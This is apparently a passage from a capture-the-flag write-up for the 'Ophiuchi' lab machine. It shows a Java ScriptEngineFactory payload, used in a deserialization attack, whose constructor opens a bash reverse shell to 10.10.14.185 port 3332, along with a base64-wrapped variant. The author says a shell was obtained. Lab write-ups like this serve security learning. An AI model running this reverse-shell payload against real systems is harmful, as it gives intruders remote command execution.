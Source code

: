 [![](Ophiuchi/Untitled%208.png)](Ophiuchi/Untitled%208.png)

[https://www.programmersought.com/article/15966770260/](https://www.programmersought.com/article/15966770260/)

I tried a lot of payloads and i saw this :

``` {#77e9ab3d-df5d-42af-bcf1-57daf4a4a4d5 .code}
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
    String [] cmd={"bash","-c","bash -i >& /dev/tcp/10.10.14.185/3332 0>&1"};
        String [] jex={"bash","-c","{echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}"};
        try {
            Runtime.getRuntime().exec(cmd);
        Runtime.getRuntime().exec(jex);
        Runtime.getRuntime().exec("echo $jex");
        } catch (IOException e) {
            e.printStackTrace();
        }
```

After many attempts I get a shell, to do this I created another VM using
ParrotOS, probably my kali Linux had a some problem related to java
compilation.
